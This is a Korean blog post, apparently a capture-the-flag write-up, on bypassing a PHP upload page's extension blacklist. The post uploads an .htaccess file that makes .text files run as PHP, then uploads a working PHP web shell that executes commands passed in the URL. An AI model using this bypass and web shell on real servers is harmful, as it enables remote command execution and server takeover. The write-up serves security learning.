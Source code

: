 ```yaml
---
title: "[2025-07-27] Apache htaccess"
excerpt: "File Vulnerability 심화"

categories:
  - Problem
tags:
  - [File Vulnerability]

permalink: /Problem/[2025-07-27] Apache htaccess/

toc: true
toc_sticky: true

date: 2025-07-27
last_modified_at: 2025-07-27
---
```


## 🦥 본문

- index.php

```python
<html>
    <head></head>
    <link rel="stylesheet" href="/static/bulma.min.css" />
    <body>
        <div class="container card">
        <div class="card-content">
        <h1 class="title">Online File Box</h1>
        <form action="upload.php" method="post" enctype="multipart/form-data">
            <div class="field">
                <div id="file-js" class="file has-name">
                    <label class="file-label">
                        <input class="file-input" type="file" name="file">
                        <span class="file-cta">
                            <span class="file-label">Choose a file...</span>
                        </span>
                        <span class="file-name">No file uploaded</span>
                    </label>
                </div>
            </div>
            <div class="control">
                <input class="button is-success" type="submit" value="submit">
            </div>
        </form>
        </div>
        </div>
        <script>
            const fileInput = document.querySelector('#file-js input[type=file]');
            fileInput.onchange = () => {
                if (fileInput.files.length > 0) {
                const fileName = document.querySelector('#file-js .file-name');
                fileName.textContent = fileInput.files[0].name;
                }
            }
        </script>
    </body>
</html>
```

위의 코드는 `<input type=”file”>` 변경을 감지하여 `.file-name` 요소에 파일 이름을 표시하는 코드이다. 즉, 사용자가 업로드할 파일을 선택하면 파일 이름을 화면에 표시한다.

- upload.php

```python
<?php
$deniedExts = array("php", "php3", "php4", "php5", "pht", "phtml");

if (isset($_FILES)) {
    $file = $_FILES["file"];
    $error = $file["error"];
    $name = $file["name"];
    $tmp_name = $file["tmp_name"];
   
    if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
    }else {
        $temp = explode(".", $name);
        $extension = end($temp);
       
        if(in_array($extension, $deniedExts)){
            die($extension . " extension file is not allowed to upload ! ");
        }else{
            move_uploaded_file($tmp_name, "upload/" . $name);
            echo "Stored in: <a href='/upload/{$name}'>/upload/{$name}</a>";
        }
    }
}else {
    echo "File is not selected";
}
?>
```

위의 코드는 파일을 업로드했을 때 작동하는 코드이다. 

`<input type=”file”>` 에서 정보를 가져온다.

- $file은 해당 파일 정보들
- $file["error"]는 업로드 도중 발생한 에러 코드
- $file["name"]는 파일명
- $file["tmp_name"]는 파일이 임시로 저장한 파일 경로

explode()를 통해 `.` 를 구분하여 쪼개고 마지막 부분이 확장자가 된다. 확장자가 필터링을 통과하면 제대로 저장이 되고 저장된 위치를 이용자에게 보내준다. 즉, 필터링을 우회해야 한다.

제목 처럼 .htaccess 파일을 이용해야 한다. 해당 .htaccess를 덮어씌워서 확장자를 우회해야 한다.

### 풀이

1. .htaccess 파일을 만든다.
    
    ```python
    ADDType application/x-httpd-php .text
    ```
    
    - text 파일을 php 파일로 인식하게 한다.
2. .htaccess를 업로드 하여 위와 같은 코드를 설정한다
3. 웹셸 코드를 text 형태로 업로드한다
    - hack.text
    
    ```python
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd']);
        }
    ?>
    </pre>
    </body>
    </html>
    ```
    
4. 설치된 주소로 들어가서 웹셸을 실행시키고 flag를 획득한다.